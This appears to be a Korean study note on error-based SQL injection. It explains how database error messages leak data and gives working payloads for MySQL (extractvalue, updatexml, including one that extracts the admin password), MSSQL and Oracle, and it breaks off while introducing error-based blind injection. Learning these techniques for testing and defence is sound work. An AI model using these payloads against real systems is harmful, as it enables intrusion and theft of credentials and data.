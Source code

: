## Error based SQL Injection
### Error based SQL Injection
---
임의로 에러를 발생시켜 데이터베이스 및 운영체제의 정보를 획득하는 공격 기법이다. 
#### 공격방법
Flask 프레임워크로 개발된 애플리케이션에서 디버그 모드를 활성화하면 코드에서 오류가 발생할 때 발생 원인을 출력하는 것을 이용해서, 다양한 정보를 수집하고, 원하는 데이터를 획득한다.
* extractvalue 함수
첫 번째로 전달된 XML데이터에서 두 번째 인자인 XPATH식을 통해 데이터를 추출한다. 만약 두 번째 XPATH식이 올바르지 않을 경우 에러 메시지와 잘못된 식을 출력한다. 
```sql
SELECT extractvalue(1, concat(0x3a, version()));
SELECT extractvalue(1, concat(0x3a, (SELECT password FROM users WHERE username='admin')));
```
* updatexml
``` sql
SELECT updatexml(null, concat(0x3a, version()), null);
```
#### MSSQL 공격
```sql
SELECT convert(int, @@version);
SELECT cast((SELECT @@version) as int);
```
#### Oracle 공격
``` sql
SELECT CTXSYS.DRITHSX.SN(user, (select banner from v$version where rownum=1)) FROM dual;
```
### Error based Blind SQL Injection
---
Blind SQLI와 Error base SQLI를 결합시킨 공격기법이다. 에러를 발생시키고 참/ 거짓을 판단해 데이터를 추출한다. 
#### Short-circuit evaluation
로직 연산의 원리를 이용해 공격하는 기법이다. `AND`연산은 처음 식이 거짓이라면 뒤의 식은 실행 하지 않고, `OR`연산은 반대로 첫 번째 식이 참이라면 뒤의 식을 실행되지 않는다.
